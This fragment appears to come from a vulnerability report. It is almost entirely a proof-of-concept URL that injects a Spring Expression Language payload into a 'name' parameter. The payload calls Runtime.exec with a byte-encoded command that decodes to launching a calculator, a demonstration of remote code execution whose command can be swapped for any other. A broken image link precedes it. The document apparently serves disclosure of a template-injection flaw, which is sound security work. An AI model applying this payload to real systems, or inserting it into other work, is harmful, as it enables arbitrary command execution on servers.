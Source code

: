 ## PoC
`http://localhost:8080/index?name=${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))}`
